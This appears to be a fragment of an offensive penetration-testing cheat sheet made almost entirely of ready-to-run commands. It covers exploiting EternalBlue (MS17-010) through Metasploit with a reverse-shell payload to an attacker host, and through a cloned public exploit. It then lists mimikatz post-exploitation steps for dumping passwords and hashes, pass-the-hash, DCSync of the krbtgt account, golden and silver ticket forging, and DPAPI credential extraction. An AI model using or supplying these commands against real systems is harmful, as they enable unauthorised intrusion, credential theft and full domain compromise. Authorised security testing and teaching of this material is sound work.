 use exploit/windows/smb/ms17_010_eternalblue

set RHOSTS <target_ip>
set LHOST <attacker_ip>
set LPORT <attacker_port>
set PAYLOAD windows/x64/meterpreter/reverse_tcp

exploit

-------

**Exploiting Manually using Python and Exploit Code**

git clone https://github.com/worawit/MS17-010.git
cd MS17-010

gcc -o eternalblue_poc eternalblue_poc.c

python eternalblue_exploit.py <target_ip>

**4. Post-Exploitation:**

mimikatz

download repo - GitHub: https://github.com/gentilkiwi/mimikatz
Command Prompt with administrator 
cd <path_to_mimikatz>

mimikatz.exe

privilege::debug       [If successful, you'll see Privilege '20' OK]

sekurlsa::logonpasswords

lsadump::secrets

lsadump::sam

sekurlsa::tickets

sekurlsa::tickets /export

kerberos::ptt <ticket_file.kirbi>

sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<ntlm_hash> /run:<command>

**ex. sekurlsa::pth /user:admin /domain:example.com /ntlm:fc525c9683e8fe067095ba2ddc971889 /run:cmd**

lsadump::dcsync /user:<domain>\krbtgt

kerberos::golden /user:<username> /domain:<domain> /sid:<domain_SID> /krbtgt:<krbtgt_hash> /id:<rid>

kerberos::ptt <ticket_file.kirbi>

kerberos::golden /user:<username> /domain:<domain> /sid:<domain_SID> /target:<target_machine> /rc4:<ntlm_hash> /service:<service_name>

dpapi::cred
dpapi::wifi

(credentials dumping )

